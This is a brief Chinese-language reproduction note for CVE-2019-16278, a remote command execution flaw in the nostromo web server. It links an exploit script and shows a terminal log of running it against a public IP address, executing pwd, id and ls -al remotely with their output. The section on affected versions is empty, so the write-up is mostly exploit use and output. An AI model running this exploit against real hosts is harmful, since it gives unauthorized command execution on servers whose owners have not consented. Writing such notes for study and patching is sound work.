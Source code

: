 （CVE-2019-16278）命令执行
==========================

一、漏洞简介
------------

（CVE-2019-16278）命令执行

二、影响范围
------------

三、复现过程
------------

<https://github.com/ianxtianxt/CVE-2019-16278/>

    ➜  Downloads python nostromo.py 114.114.114.114 8080 pwd
    /bin
    ➜  Downloads python nostromo.py 114.114.114.114 8080 id
    uid=65534 gid=65534
    ➜  Downloads python nostromo.py 114.114.114.114 8080 "ls -al"
    drwxr-xr-x    2 0        0                0 Apr 12  2013 .
    drwxr-xr-x   16 0        0                0 Jan  1  1970 ..
    lrwxrwxrwx    1 0        0                7 Apr 12  2013 ash -> busybox
